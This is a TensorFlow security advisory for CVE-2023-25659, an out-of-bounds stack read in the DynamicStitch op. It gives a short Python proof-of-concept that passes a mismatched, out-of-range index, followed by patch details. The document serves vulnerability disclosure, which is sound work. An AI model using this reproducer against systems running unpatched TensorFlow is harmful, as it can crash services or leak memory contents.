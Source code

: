 ## TFSA-2023-018: OOB read in DynamicStitch

### CVE Number
CVE-2023-25659

### Impact
If the parameter `indices` for `DynamicStitch` does not match the shape of the parameter `data`, it can trigger an stack OOB read.

```python
import tensorflow as tf
func = tf.raw_ops.DynamicStitch
para={'indices': [[0xdeadbeef], [405], [519], [758], [1015]], 'data': [[110.27793884277344], [120.29475402832031], [157.2418212890625], [157.2626953125], [188.45382690429688]]}
y = func(**para)
```

### Patches
We have patched the issue in GitHub commit [ee004b18b976eeb5a758020af8880236cd707d05](https://github.com/tensorflow/tensorflow/commit/ee004b18b976eeb5a758020af8880236cd707d05).

The fix will be included in TensorFlow 2.12. We will also cherrypick this commit on TensorFlow 2.11.1.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This has been reported via Google OSS VRP.